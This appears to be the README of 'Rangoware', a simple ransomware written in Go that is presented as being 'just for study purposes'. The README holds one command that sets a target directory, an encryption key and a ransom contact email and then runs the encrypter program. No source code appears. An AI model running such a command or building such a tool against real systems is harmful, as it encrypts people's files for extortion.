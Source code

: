 # Rangoware

## Golang simple ransomware 
## Disclaimer: This software is just for study purposes

env RANSOM_DIR=/Downloads/Test RANSOM_KEY=16379a3da689dff87ff6ac71fd8abebcd4261c596fdf7a027aa32196c371372d RANSOM_CONTACT=test@protomail.com go run encrypter/encrypter.go 